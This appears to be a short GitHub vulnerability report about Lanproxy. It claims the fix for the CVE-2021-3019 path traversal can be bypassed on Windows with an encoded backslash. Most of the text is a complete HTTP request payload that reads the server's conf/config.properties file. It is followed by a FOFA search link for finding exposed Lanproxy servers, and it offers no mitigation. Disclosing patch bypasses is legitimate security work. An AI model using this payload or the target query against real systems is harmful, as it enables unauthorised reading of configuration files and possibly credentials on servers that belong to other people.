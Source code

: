 
Lanproxy originally existed CVE-2021-3019

The repair method is as follows

![image](https://github.com/user-attachments/assets/73a03fe7-a627-486a-933e-c5d0a7503572)

It is obvious that this repair method did not consider bypassing on Windows servers

so we use payload

```python
GET /..%5Cconf%5Cconfig.properties HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4


```
![image](https://github.com/user-attachments/assets/8343ba90-09c1-47ae-a162-5c351d221ba2)

fofa: https://fofa.info/result?q=%22Server%3A%20LPS-0.1%22&qbase64=IlNlcnZlcjogTFBTLTAuMSI%3D
![image](https://github.com/user-attachments/assets/d7a764f7-8225-4935-917f-cc4ea76d8aac)

of course, due to the directory traversal feature, this only applies to Windows servers
